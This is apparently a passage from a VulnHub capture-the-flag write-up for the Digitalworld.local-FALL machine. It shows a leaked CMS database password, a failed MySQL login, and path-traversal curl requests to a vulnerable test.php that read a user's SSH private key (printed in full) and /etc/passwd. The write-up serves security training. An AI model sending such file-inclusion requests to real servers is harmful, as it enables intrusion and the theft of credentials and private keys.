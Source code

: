 		$config['dbms'] = 'mysqli';
		$config['db_hostname'] = '127.0.0.1';
		$config['db_username'] = 'cms_user';
		$config['db_password'] = 'P@ssw0rdINSANITY';
		$config['db_name'] = 'cms_db';
		$config['db_prefix'] = 'cms_';
		$config['timezone'] = 'Asia/Singapore';
		$config['db_port'] = 3306;
		?>
		```
		- cms_user:`P@ssw0rdINSANITY`


## TCP/3306 (MySQL) - Unable to connect
1. Access mysql w/ cms_user:`P@ssw0rdINSANITY`
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# mysql -u cms_user -h $ip
	ERROR 1130 (HY000): Host '192.168.110.4' is not allowed to connect to this MySQL server
	```
	-  Unable to connect to MySQL


## TCP/80 (HTTP) - LFI (Include id_rsa)
1. Only option we did not try is to include `id_rsa` 
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# curl -s http://192.168.110.20/test.php?file=../../../../home/qiu/.ssh/id_rsa | tee id_rsa
	-----BEGIN OPENSSH PRIVATE KEY-----
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
	NhAAAAAwEAAQAAAQEAvNjhOFOSeDHy9K5vnHSs3qTjWNehAPzT0sD3beBPVvYKQJt0AkD0
	FDcWTSSF13NhbjCQm5fnzR8td4sjJMYiAl+vAKboHne0njGkBwdy5PgmcXyeZTECIGkggX
	61kImUOIqtLMcjF5ti+09RGiWeSmfIDtTCjj/+uQlokUMtdc4NOv4XGJbp7GdEWBZevien
	qXoXtG6j7gUgtXX1Fxlx3FPhxE3lxw/AfZ9ib21JGlOyy8cflTlogrZPoICCXIV/kxGK0d
	Zucw8rGGMc6Jv7npeQS1IXU9VnP3LWlOGFU0j+IS5SiNksRfdQ4mCN9SYhAm9mAKcZW8wS
	vXuDjWOLEwAAA9AS5tRmEubUZgAAAAdzc2gtcnNhAAABAQC82OE4U5J4MfL0rm+cdKzepO
	NY16EA/NPSwPdt4E9W9gpAm3QCQPQUNxZNJIXXc2FuMJCbl+fNHy13iyMkxiICX68Apuge
	d7SeMaQHB3Lk+CZxfJ5lMQIgaSCBfrWQiZQ4iq0sxyMXm2L7T1EaJZ5KZ8gO1MKOP/65CW
	iRQy11zg06/hcYlunsZ0RYFl6+J6epehe0bqPuBSC1dfUXGXHcU+HETeXHD8B9n2JvbUka
	U7LLxx+VOWiCtk+ggIJchX+TEYrR1m5zDysYYxzom/uel5BLUhdT1Wc/ctaU4YVTSP4hLl
	KI2SxF91DiYI31JiECb2YApxlbzBK9e4ONY4sTAAAAAwEAAQAAAQArXIEaNdZD0vQ+Sm9G
	NWQcGzA4jgph96uLkNM/X2nYRdZEz2zrt45TtfJg9CnnNo8AhhYuI8sNxkLiWAhRwUy9zs
	qYE7rohAPs7ukC1CsFeBUbqcmU4pPibUERes6lyXFHKlBpH7BnEz6/BY9RuaGG5B2DikbB
	8t/CDO79q7ccfTZs+gOVRX4PW641+cZxo5/gL3GcdJwDY4ggPwbU/m8sYsyN1NWJ8NH00d
	X8THaQAEXAO6TTzPMLgwJi+0kj1UTg+D+nONfh7xeXLseST0m1p+e9C/8rseZsSJSxoXKk
	CmDy69aModcpW+ZXl9NcjEwrMvJPLLKjhIUcIhNjf4ABAAAAgEr3ZKUuJquBNFPhEUgUic
	ivHoZH6U82VyEY2Bz24qevcVz2IcAXLBLIp+f1oiwYUVMIuWQDw6LSon8S72kk7VWiDrWz
	lHjRfpUwWdzdWSMY6PI7EpGVVs0qmRC/TTqOIH+FXA66cFx3X4uOCjkzT0/Es0uNyZ07qQ
	58cGE8cKrLAAAAgQDlPajDRVfDWgOWJj+imXfpGsmo81UDaYXwklzw4VM2SfIHIAFZPaA0
	acm4/icKGPlnYWsvZCksvlUck+ti+J2RS2Mq9jmKB0AVZisFazj8qIde3SPPwtR7gBR329
	JW3Db+KISMRIvdpJv+eiKQLg/epbSdwXZi0DJoB0a15FsIAQAAAIEA0uQl0d0p3NxCyT/+
	Q6N+llf9TB5+VNjinaGu4DY6qVrSHmhkceHtXxG6h9upRtKw5BvOlSbTatlfMZYUtlZ1mL
	RWCU8D7v1Qn7qMflx4bldYgV8lf18sb6g/uztWJuLpFe3Ue/MLgeJ+2TiAw9yYoPVySNK8
	uhSHa0dvveoJ8xMAAAAZcWl1QGxvY2FsaG9zdC5sb2NhbGRvbWFpbgEC
	-----END OPENSSH PRIVATE KEY-----
	```
2. Obtain usernames
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# curl -s http://192.168.110.20/test.php?file=../../../../etc/passwd | awk -F: '($3>=1000)&&($1!="nobody"){print $1}' | tee usernames.txt
	qiu
	```